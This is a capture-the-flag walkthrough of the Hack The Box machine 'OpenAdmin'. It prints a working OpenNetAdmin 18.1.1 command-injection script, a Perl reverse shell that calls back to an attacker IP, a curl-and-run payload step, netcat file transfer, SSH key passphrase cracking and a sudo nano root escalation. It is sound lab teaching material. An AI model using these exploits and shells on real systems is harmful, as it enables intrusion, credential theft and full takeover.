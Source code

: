 # OpenAdmin

![OpenAdmin](../Images/htb_openadmin_1.png)

**Tools: nmap, gobuster, netcat, LinEnum/LinPEAS, ssh2john, john.**

We begin with the nmap scan:  
`nmap -Pn -sV -sC --min-rate=10000 -p- 10.10.10.171`

![OpenAdmin](../Images/htb_openadmin_2.png)

With port 80 open, we can take a look at the webpage, and meanwhile run a fuzzer with gobuster:  
(Try a lower value [like 100, or use the default 10] for the -t flag if any error occurs)  
`gobuster dir -u http://10.10.10.171/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 300`

![OpenAdmin](../Images/htb_openadmin_3.png)

We're able to find the directories 'artwork', 'music' and 'sierra'. After some testing, we can see that in the 'music' directory, if we click on the 'Login' button we're redirected to the '/ona' directory.

![OpenAdmin](../Images/htb_openadmin_4.png)

This seems to be the OpenNetAdmin dashboard, and in here we can see the application's version (v18.1.1).

![OpenAdmin](../Images/htb_openadmin_5.png)

With this information, we can go straight to [exploit-db](https://www.exploit-db.com/) and look for an exploit.

![OpenAdmin](../Images/htb_openadmin_6.png)

There's an RCE exploit available for download. The code wasn't working for me, so I had to make a few changes (identation/spacing, mostly), so here's what worked for me:

```
#!/bin/bash
URL="${1}"
while true;do
    echo -n "$ "; read cmd
    curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e'/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Now we can simply run the shell script:  

```
chmod +x 47691.sh
./47691.sh 10.10.10.171/ona/
```

![OpenAdmin](../Images/htb_openadmin_7.png)

And we have a shell.  
Now this is the part that took me some time to figure out. My attempts to spawn a fully interactive tty shell or start a reverse shell were always met with errors or simply a connection drop (I was monitoring it with 'tcpdump -i tun0'). So this is what worked for me:  
First of all, put a perl reverse shell code inside a file, let's call it revs.pl (it's a one-liner - remember to change the IP to your tun0 IP):  

```
perl -e 'use Socket;$i="10.10.14.245";$p=16501;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Next, start a python simple http server in the same folder of the perl file in your machine to send the exploit to the target:  
`python3 -m http.server 80`

In another terminal window, start a netcat listening session:  
`nc -vnlp 16501`

Now inside of the shell that we've got earlier with the exploit:  

```
curl 10.10.14.245/revs.pl > revs.pl (use your tun0 IP)
chmod 777 revs.pl (give the file permission to run)
./revs.pl (run the script)
```

You'll get a shell in the netcat window, now we can finally spawn a fully interactive shell:  
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

![OpenAdmin](../Images/htb_openadmin_8.png)

Now we need to enumerate the box.  
This next step didn't give many good results, but I'll write it down because it was a bit of a pain, and I've learned a few new tricks. With LinPeas I couldn't get it to save the output to a file without breaking the results completely, so I decided to use LinEnum.  
```
git clone https://github.com/rebootuser/LinEnum.git  
cd LinEnum  
```

Start once again a python3 http server, and then curl the linenum.sh file to the target. After that, give the script permissions and run it:  
```
chmod 777 linenum.sh  
./linenum.sh -r result -e . -t
```

When it finishes, use netcat to send the file to your machine:  
`nc -q 5 -vnlp 9068 < result-16-07-21`

Then, in your machine, download the file through netcat and read it using 'less':  
```
nc -v 10.10.10.171 9068 > result-16-07-21  
cat result-16-07-21 | less
```

![OpenAdmin](../Images/htb_openadmin_9.png)

Now we still need to manually enumerate the box.  
At /var/www/ we can see that the directory 'internal' can only be accessed by the user 'jimmy'. Further enumeration takes us to /var/www/html/ona/local/config and inside the ona database configuration file 'database_settings.inc.php' we can see that there's the user 'ona_sys' and an exposed password 'n1nj4W4rri0R!'.

![OpenAdmin](../Images/htb_openadmin_10.png)

We can try to SSH into jimmy's account with that password:

![OpenAdmin](../Images/htb_openadmin_11.png)

And now we are able to access the /var/www/internal directory.  
If we read the php files, we can see a hashed password (SHA512) in the index.php.  

![OpenAdmin](../Images/htb_openadmin_12.png)

We can crack it with an online tool such as [Crackstation](https://crackstation.net/), but we can also use John - save the hash to a hash.txt file:  
`john hash.txt --format=Raw-SHA512 --wordlist=/usr/share/wordlists/rockyou.txt --rules=Jumbo`

We'll get the password 'Revealed'. This is useful if you use the SSH port forwarding/tunneling technique to pwn this box, but I won't use that because I had some trouble with it, so this password won't have much use.  
Now reading the main.php we can see the following:

![OpenAdmin](../Images/htb_openadmin_13.png)

Without even knowing a lot about php code, we can already notice the chance that this file might be leaking an ssh private key.  

I got stuck at this point and had to get some help. We could either run 'ss -lnpt', 'netstat -naep | grep LISTEN | grep -v LISTENING' or read the file '/etc/apache2/sites-enabled/internal.conf'. Either way we'll find that there's an internal virtual host running on 127.0.0.1:52846 as user 'joanna'.

![OpenAdmin](../Images/htb_openadmin_14.png)

With this information, we could either create an SSH port forwarding/tunneling, or try to curl the main.php file:  
`curl 127.0.0.1:52846/main.php`

And we're lucky, because this works. We can save the key (I'm using its original filename):

![OpenAdmin](../Images/htb_openadmin_15.png)

Now we can run ssh2john toconvert the key to a format that can be cracked with john:  
```
/usr/share/john/ssh2john.py id_rsa > hash  
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![OpenAdmin](../Images/htb_openadmin_16.png)

The password we get is 'bloodninjas'.  
Next up, we can use the ssh key and the password to access joanna's account through SSH:  
```
chmod 600 id_rsa  
ssh -i id_rsa joanna@10.10.10.171
```

![OpenAdmin](../Images/htb_openadmin_17.png)

At joanna's home directory we can grab the user flag (user.txt).  
The escalation of privileges is the easiest part of this box. We simply check what files joanna can run as root:  
`sudo -l`

![OpenAdmin](../Images/htb_openadmin_18.png)

And, based on the results, we can use a simple nano sudo privesc from [GTFObins](https://gtfobins.github.io/gtfobins/nano/#sudo):  
`sudo -u root /bin/nano /opt/priv`

Inside the nano file, first press Ctrl+R then Ctrl+X and then type the command to be executed:  
`reset; sh 1>&0 2>&0`

Press enter and you'll be root. Now just grab the root flag at /root/root.txt and you're done!

![OpenAdmin](../Images/htb_openadmin_19.png)

Thats it, a very extensive box that requires quite a bit of troubleshooting and some very specific knowledge, but it's a great learning experience! 
